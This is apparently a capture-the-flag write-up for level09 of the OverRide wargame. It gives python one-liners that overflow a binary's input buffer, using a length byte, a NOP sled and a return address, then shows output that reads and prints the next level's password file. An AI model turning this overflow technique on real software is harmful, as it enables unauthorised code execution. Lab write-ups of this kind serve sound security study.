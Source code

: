 # level09
In this level, we have a binary that will wait for two inputs, a username and a message

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xc8\n')") | ./level09 
```

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xca\n')") | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
Segmentation fault (core dumped)
level09@OverRide:~$ 
```

Every value higher than `\xc8` after the 40th character will produce a segfault,
so we can assume that the buffer is 200 character long

See the [gdb writeup](Ressources/gdbwriteup.md) to understand what is the address that we will send after the segfault

```bash
level09@OverRide:~$ (python -c "print('a' * 40  + '\xca\n' + '\x90' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1])"; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

